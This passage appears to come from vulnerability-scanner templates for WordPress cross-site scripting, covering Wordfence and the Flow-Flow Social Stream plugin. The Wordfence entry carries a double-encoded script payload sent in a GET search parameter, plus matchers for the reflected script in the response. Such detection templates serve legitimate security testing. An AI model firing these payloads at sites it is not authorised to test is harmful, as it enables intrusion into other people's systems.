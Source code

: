 **Type - status**

- status
  1. 200

---

# Wordpress Wordfence - Cross-Site Scripting

## Description

- Wordpress Wordfence is vulnerable to cross-site scripting.
- severity - medium
- tags - wordpress,wordfence,xss,bypass

## Requests

- Method - GET

### URL

- {{BaseURL}}/?s=ax6zt%2522%253e%253cscript%253ealert%2528document.domain%2529%253c%252fscript%253ey6uu6

### Matchers

**Type - word**

- words
  1. \<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Flow-Flow Social Stream \<=3.0.71 - Cross-Site Scripting

## Description

- WordPress Flow-Flow Social Stream 3.0.7.1 and prior is vulnerable to cross-site scripting.
- severity - medium
- tags - xss,wordpress,wpscan
